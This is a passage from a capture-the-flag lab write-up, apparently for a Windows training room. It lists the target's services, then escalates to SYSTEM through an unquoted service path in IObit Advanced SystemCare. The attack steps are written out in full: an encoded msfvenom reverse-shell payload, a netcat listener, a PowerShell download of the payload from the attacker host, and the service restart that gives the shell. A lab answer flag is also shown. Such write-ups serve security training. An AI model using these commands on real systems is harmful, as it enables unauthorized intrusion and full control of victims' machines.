C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_0bfc7d21bd2a1fbb\appcmd.exe
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_0c2f6f65bd046a2d\appcmd.exe
File Not Found

C:\>
~~~

We could have used powershell to list the services, as follows:

~~~
C:\>powershell -c Get-Service
powershell -c Get-Service

Status   Name               DisplayName                           
------   ----               -----------                           
Running  AdvancedSystemC... Advanced SystemCare Service 9         
Stopped  AeLookupSvc        Application Experience                
Stopped  ALG                Application Layer Gateway Service     
Running  AmazonSSMAgent     Amazon SSM Agent                      
Running  AppHostSvc         Application Host Helper Service       
Stopped  AppIDSvc           Application Identity                  
Stopped  Appinfo            Application Information               
Stopped  AppMgmt            Application Management                
Stopped  AppReadiness       App Readiness                         
Stopped  AppXSvc            AppX Deployment Service (AppXSVC)     
Stopped  AudioEndpointBu... Windows Audio Endpoint Builder        
Stopped  Audiosrv           Windows Audio                         
Running  AWSLiteAgent       AWS Lite Guest Agent                  
Running  BFE                Base Filtering Engine                 
Stopped  BITS               Background Intelligent Transfer Ser...
Running  BrokerInfrastru... Background Tasks Infrastructure Ser...
Stopped  Browser            Computer Browser                      
Running  CertPropSvc        Certificate Propagation               
Stopped  COMSysApp          COM+ System Application               
Running  CryptSvc           Cryptographic Services                
Running  DcomLaunch         DCOM Server Process Launcher          
Stopped  defragsvc          Optimize drives                       
Stopped  DeviceAssociati... Device Association Service            
Stopped  DeviceInstall      Device Install Service                
Running  Dhcp               DHCP Client                           
Running  Dnscache           DNS Client                            
Stopped  dot3svc            Wired AutoConfig                      
Running  DPS                Diagnostic Policy Service             
Running  DsmSvc             Device Setup Manager                  
Stopped  Eaphost            Extensible Authentication Protocol    
Running  Ec2Config          Ec2Config                             
Stopped  EFS                Encrypting File System (EFS)          
Running  EventLog           Windows Event Log                     
Running  EventSystem        COM+ Event System                     
Stopped  fdPHost            Function Discovery Provider Host      
Stopped  FDResPub           Function Discovery Resource Publica...
Running  FontCache          Windows Font Cache Service            
Running  gpsvc              Group Policy Client                   
Stopped  hidserv            Human Interface Device Service        
Stopped  hkmsvc             Health Key and Certificate Management 
Stopped  IEEtwCollectorS... Internet Explorer ETW Collector Ser...
Running  IKEEXT             IKE and AuthIP IPsec Keying Modules   
Stopped  IObitUnSvr         IObit Uninstaller Service             
Running  iphlpsvc           IP Helper                             
Stopped  KeyIso             CNG Key Isolation                     
Stopped  KPSSVC             KDC Proxy Server service (KPS)        
Stopped  KtmRm              KtmRm for Distributed Transaction C...
Running  LanmanServer       Server                                
Running  LanmanWorkstation  Workstation                           
Running  LiveUpdateSvc      LiveUpdate                            
Stopped  lltdsvc            Link-Layer Topology Discovery Mapper  
Running  lmhosts            TCP/IP NetBIOS Helper                 
Running  LSM                Local Session Manager                 
Stopped  MMCSS              Multimedia Class Scheduler            
Running  MpsSvc             Windows Firewall                      
Running  MSDTC              Distributed Transaction Coordinator   
Stopped  MSiSCSI            Microsoft iSCSI Initiator Service     
Stopped  msiserver          Windows Installer                     
Stopped  napagent           Network Access Protection Agent       
Stopped  NcaSvc             Network Connectivity Assistant        
Stopped  Netlogon           Netlogon                              
Stopped  Netman             Network Connections                   
Running  netprofm           Network List Service                  
Stopped  NetTcpPortSharing  Net.Tcp Port Sharing Service          
Running  NlaSvc             Network Location Awareness            
Running  nsi                Network Store Interface Service       
Stopped  PerfHost           Performance Counter DLL Host          
Stopped  pla                Performance Logs & Alerts             
Running  PlugPlay           Plug and Play                         
Running  PolicyAgent        IPsec Policy Agent                    
Running  Power              Power                                 
Stopped  PrintNotify        Printer Extensions and Notifications  
Running  ProfSvc            User Profile Service                  
Stopped  PsShutdownSvc      PsShutdown                            
Stopped  RasAuto            Remote Access Auto Connection Manager 
Stopped  RasMan             Remote Access Connection Manager      
Stopped  RemoteAccess       Routing and Remote Access             
Stopped  RemoteRegistry     Remote Registry                       
Running  RpcEptMapper       RPC Endpoint Mapper                   
Stopped  RpcLocator         Remote Procedure Call (RPC) Locator   
Running  RpcSs              Remote Procedure Call (RPC)           
Stopped  RSoPProv           Resultant Set of Policy Provider      
Stopped  sacsvr             Special Administration Console Helper 
Running  SamSs              Security Accounts Manager             
Stopped  SCardSvr           Smart Card                            
Stopped  ScDeviceEnum       Smart Card Device Enumeration Service 
Running  Schedule           Task Scheduler                        
Stopped  SCPolicySvc        Smart Card Removal Policy             
Stopped  seclogon           Secondary Logon                       
Running  SENS               System Event Notification Service     
Running  SessionEnv         Remote Desktop Configuration          
Stopped  SharedAccess       Internet Connection Sharing (ICS)     
Running  ShellHWDetection   Shell Hardware Detection              
Stopped  smphost            Microsoft Storage Spaces SMP          
Stopped  SNMPTRAP           SNMP Trap                             
Running  Spooler            Print Spooler                         
Running  sppsvc             Software Protection                   
Stopped  SSDPSRV            SSDP Discovery                        
Stopped  SstpSvc            Secure Socket Tunneling Protocol Se...
Stopped  svsvc              Spot Verifier                         
Stopped  swprv              Microsoft Software Shadow Copy Prov...
Stopped  SysMain            Superfetch                            
Running  SystemEventsBroker System Events Broker                  
Stopped  TapiSrv            Telephony                             
Running  TermService        Remote Desktop Services               
Running  Themes             Themes                                
Stopped  THREADORDER        Thread Ordering Server                
Stopped  TieringEngineSe... Storage Tiers Management              
Running  TrkWks             Distributed Link Tracking Client      
Stopped  TrustedInstaller   Windows Modules Installer             
Running  UALSVC             User Access Logging Service           
Stopped  UI0Detect          Interactive Services Detection        
Running  UmRdpService       Remote Desktop Services UserMode Po...
Stopped  upnphost           UPnP Device Host                      
Stopped  VaultSvc           Credential Manager                    
Running  vds                Virtual Disk                          
Stopped  vmicguestinterface Hyper-V Guest Service Interface       
Stopped  vmicheartbeat      Hyper-V Heartbeat Service             
Stopped  vmickvpexchange    Hyper-V Data Exchange Service         
Stopped  vmicrdv            Hyper-V Remote Desktop Virtualizati...
Stopped  vmicshutdown       Hyper-V Guest Shutdown Service        
Stopped  vmictimesync       Hyper-V Time Synchronization Service  
Stopped  vmicvss            Hyper-V Volume Shadow Copy Requestor  
Stopped  VSS                Volume Shadow Copy                    
Running  W32Time            Windows Time                          
Stopped  w3logsvc           W3C Logging Service                   
Running  W3SVC              World Wide Web Publishing Service     
Running  WAS                Windows Process Activation Service    
Running  Wcmsvc             Windows Connection Manager            
Stopped  WcsPlugInService   Windows Color System                  
Stopped  WdiServiceHost     Diagnostic Service Host               
Stopped  WdiSystemHost      Diagnostic System Host                
Stopped  Wecsvc             Windows Event Collector               
Stopped  WEPHOSTSVC         Windows Encryption Provider Host Se...
Stopped  wercplsupport      Problem Reports and Solutions Contr...
Stopped  WerSvc             Windows Error Reporting Service       
Running  WinHttpAutoProx... WinHTTP Web Proxy Auto-Discovery Se...
Running  Winmgmt            Windows Management Instrumentation    
Running  WinRM              Windows Remote Management (WS-Manag...
Running  WLMS               Windows Licensing Monitoring Service  
Stopped  wmiApSrv           WMI Performance Adapter               
Stopped  WPDBusEnum         Portable Device Enumerator Service    
Stopped  WSService          Windows Store Service (WSService)     
Stopped  wuauserv           Windows Update                        
Stopped  wudfsvc            Windows Driver Foundation - User-mo...

C:\>
~~~

Answer: `powershell -c Get-Service`

## #3

**Intsructions**

Now let's escalate to Administrator with our new found knowledge.

Generate your payload using msfvenom and pull it to the system using powershell.

Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands.

First we need to stop the service which we can do like so:

~~~
sc stop AdvancedSystemCareService9
~~~

Shortly followed by:

~~~
sc start AdvancedSystemCareService9
~~~

Once this command runs, you will see you gain a shell as Administrator on our listener!

**Solution**

*Hint: msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=443 -e x86/shikata_ga_nai -f exe -o Advanced.exe*

Let's start by generating our reverse shell and make it available through our python web server:

~~~
root@kali:/data/tmp# msfvenom -p windows/shell/reverse_tcp LHOST=10.8.50.72 LPORT=9999 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
~~~

Open a handler listening on the port you specified in the previous command:

~~~
root@kali:/data/tmp# rlwrap nc -nlvp 9999
listening on [any] 9999 ...
~~~

Now, from the reverse shell, let's download our executable, and restart the service:

~~~
C:\Program Files (x86)\IObit>powershell -c "Invoke-WebRequest -Uri 'http://10.8.50.72/Advanced.exe' -OutFile 'c:\program files (x86)\IObit\Advanced.exe'"
C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2692
        FLAGS              : 
~~~

Now, we can get the flag from our new reverse shell:

~~~
connect to [10.8.50.72] from (UNKNOWN) [10.10.186.107] 61367

Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>more c:\users\administrator\desktop\root.txt
more c:\users\administrator\desktop\root.txt
9af5f314f57607c00fd09803a587db80
~~~